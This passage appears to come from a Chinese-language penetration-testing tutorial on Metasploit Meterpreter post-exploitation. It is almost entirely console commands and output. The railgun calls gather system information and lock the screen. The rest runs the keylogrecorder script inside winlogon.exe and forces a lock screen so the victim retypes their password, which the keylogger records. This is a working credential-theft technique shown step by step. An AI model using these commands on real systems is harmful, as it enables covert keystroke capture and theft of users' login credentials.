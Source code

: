 ```shell
# 列出可用的dll
>> client.railgun.known_dll_names
=> ["kernel32", "ntdll", "user32", "ws2_32", "iphlpapi", "advapi32", "shell32", "netapi32", "crypt32", "wlanapi", "wldap32", "version", "psapi"]
# 获取目标系统信息
>> client.sys.config.sysinfo
=> {"Computer"=>"EVAN", "OS"=>"Windows XP (Build 2600, Service Pack 3).", "Architecture"=>"x86", "System Language"=>"zh_CN", "Domain"=>"WORKGROUP", "Logged On Users"=>2}
# 获取当前用户id
>> client.sys.config.getuid
=> "NT AUTHORITY\\SYSTEM"
# 获取所有网卡信息
>> init = client.net.config.interfaces
>> init.each { |x| puts x.pretty }

# 调用消息框函数MessageBoxA弹出信息
>> client.railgun.user32.MessageBoxA(0, "Hello World", "Osanda", "MB_ICONASTERISK | MB_OK" )
# 防止目标主机在meterpreter会话期间进入睡眠状态
>> client.railgun.kernel32.SetThreadExecutionState("ES_CONTINUOUS|ES_SYSTEM_REQUIRED")
# 让目标系统锁屏
>> client.railgun.user32.LockWorkStation()
```

### 键盘记录结合锁屏

原理是先后台开启键盘记录，然后强制锁屏，用户输入密码登录得到用户输入内容。

```shell
# 后台运行键盘记录，每15秒dump到记录文件中
meterpreter > bgrun keylogrecorder -c 1 -t 15
[*] Executed Meterpreter with Job ID 0
meterpreter > [*] winlogon.exe Process found, migrating into 640
[*] Migration Successful!!
[*] Starting the keystroke sniffer...
[*] Keystrokes being saved in to /root/.msf3/logs/scripts/keylogrecorder/192.168.92.122_20100707.4539.txt
[*] Recording

# 调用目标系统锁屏函数
meterpreter > irb
[*] Starting IRB shell
[*] The 'client' variable holds the meterpreter client

client.core.use("railgun")
=> true
client.railgun.user32.LockWorkStation()
=> {"GetLastError"=>0, "return"=>true}
exit

meterpreter >
meterpreter > bglist
[*] Job 0: ["keylogrecorder", "-c", "1", "-t", "15"]
meterpreter > bgkill 0
[*] Killing background job 0...
meterpreter >
```
